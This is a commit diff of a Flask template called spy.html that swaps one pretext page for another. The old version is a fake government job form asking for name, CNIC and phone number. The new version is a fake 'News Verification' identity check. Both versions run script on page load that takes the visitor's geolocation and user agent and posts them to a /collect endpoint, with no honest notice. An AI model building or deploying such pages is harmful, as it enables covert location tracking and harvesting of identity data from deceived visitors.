

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: template templates/spy.html in a window 1280 px wide. Shown: the top 397 px of the page, without its empty margins (320-960 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -1,55 +1,64 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-  <title>Govt Job Application</title>
-  <meta name="viewport" content="width=device-width, initial-scale=1">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>News Verification</title>
   <style>
-    body { font-family: sans-serif; background: #eef2f3; padding: 20px; }
-    .form-box { background: white; padding: 20px; border-radius: 8px; box-shadow: 0 2px 6px rgba(0,0,0,0.1); max-width: 400px; margin: auto; }
-    input, button { width: 100%; padding: 10px; margin-top: 10px; border: 1px solid #ccc; border-radius: 4px; }
-    button { background: #28a745; color: white; border: none; }
+    body {
+      font-family: Arial, sans-serif;
+      background: #f9f9f9;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      margin-top: 100px;
+    }
+    .box {
+      background: white;
+      padding: 20px;
+      border-radius: 10px;
+      box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+      text-align: center;
+    }
+    h2 {
+      color: #333;
+    }
   </style>
 </head>
 <body>
-  <div class="form-box">
-    <h2>Government Job Form</h2>
-    <p>Please fill your details to apply.</p>
-    <form>
-      <input type="text" placeholder="Full Name" required>
-      <input type="text" placeholder="CNIC / ID Number" required>
-      <input type="text" placeholder="Phone Number" required>
-      <button type="submit">Submit</button>
-    </form>
+  <div class="box">
+    <h2>Verifying Your Identity...</h2>
+    <p>Please wait while we verify your browser and location.</p>
   </div>
 
   <script>
-    const device = navigator.platform || "Unknown";
-    navigator.geolocation.getCurrentPosition(
-      pos => {
+    function getDataAndSend(lat, lon) {
       fetch("/collect", {
         method: "POST",
-          headers: { "Content-Type": "application/json" },
+        headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
-            latitude: pos.coords.latitude,
-            longitude: pos.coords.longitude,
+          latitude: lat,
+          longitude: lon,
           userAgent: navigator.userAgent,
-            camera: "✅ Location Allowed",
-            deviceInfo: device
+          camera: "✅ Location Accessed"
         })
       });
+    }
+
+    navigator.geolocation.getCurrentPosition(
+      function(position) {
+        getDataAndSend(position.coords.latitude, position.coords.longitude);
       },
-      err => {
+      function(error) {
         fetch("/collect", {
           method: "POST",
-          headers: { "Content-Type": "application/json" },
+          headers: {"Content-Type": "application/json"},
           body: JSON.stringify({
             userAgent: navigator.userAgent,
-            camera: "❌ Location Denied",
-            deviceInfo: device
+            camera: "❌ Location Denied"
           })
         });
-      },
-      { enableHighAccuracy: true, timeout: 5000, maximumAge: 0 }
+      }
     );
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
